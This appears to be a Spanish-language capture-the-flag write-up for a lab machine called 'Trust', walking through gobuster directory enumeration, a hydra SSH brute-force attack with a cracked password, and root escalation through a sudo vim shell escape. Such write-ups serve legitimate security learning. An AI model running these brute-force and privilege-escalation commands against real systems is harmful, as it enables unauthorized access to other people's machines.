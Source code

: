 # WriteUp Maquina Trust

Primero haremos un Ping a la IP para verificar que haya conexion

<h2><b>Escaneo de Puertos</b></h2>
Iniciamos con un escaneo básico de puertos y encontramos los siguientes servicios abiertos:
<br>
<br>
<img src="https://github.com/user-attachments/assets/3f91c7d4-234b-4e49-a9d8-9fcaf6f60ebf">
<br>
<br>
<h2><b>Enumeración de Directorios</b></h2>
Utilizamos gobuster para enumerar directorios en el puerto 80:
<br>
<br>
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
<br>
<br>
<img src="https://github.com/user-attachments/assets/2361a103-d894-4f12-b8cf-09f2ff44cc11">
<br>
<br>
<h2><b>Resultado</b></h2>
Encontramos un archivo interesante:
<br>
<br>
/secret.php
<br>
<br>
Accedemos a " http://172.18.0.2/secret.php ", pero solo encontramos un mensaje que dice "HOLA MARIO". Sin más información útil, decidimos explorar otras opciones.
<br>
<br>
<img src="https://github.com/user-attachments/assets/2f3034b3-d3b6-4340-9b76-267ee5e5a933">
<br>
<br>
<h2><b>Fuerza Bruta en SSH</b></h2>
Dado que encontramos un usuario potencial ("mario") en /secret.php, procedemos a un ataque de fuerza bruta en el puerto 22 (SSH) para descubrir la contraseña:
<br>
<br>
hydra  -l mario -P /home/kali/Downloads/rockyou.txt ssh://172.18.0.2
<br>
<br>
Credenciales encontradas:
<br>
<br>
Usuario: mario
<br>
Contraseña: chocolate
<br>
<br>
<h2><b>Acceso al Sistema</b></h2>
Usamos las credenciales obtenidas para iniciar sesión por SSH:
<br>
<br>
ssh mario@172.18.0.2
<br>
<br>
<h2><b>Escalada de Privilegios</b></h2>
Al verificar los privilegios de sudo con sudo -l, observamos lo siguiente:
<br>
<br>
<img src="https://github.com/user-attachments/assets/dacc3017-5890-4356-ab6a-bc0bed7de500">
<br>
<br>
Esto indica que podemos usar vim como root. Para explotar este permiso, consultamos GTFOBins.
<br>
<br>
<h2><b>Comando para obtener acceso root:</b></h2>
sudo vim -c ':!/bin/sh'
<br>
<br>
Al ejecutar este comando, logramos escalar privilegios y obtener acceso root.
<br>
<br>
<img src="https://github.com/user-attachments/assets/299a427e-5260-4673-9734-7f0c61668cef">
<br>
<br>
¡Y eso es todo, ya somos root!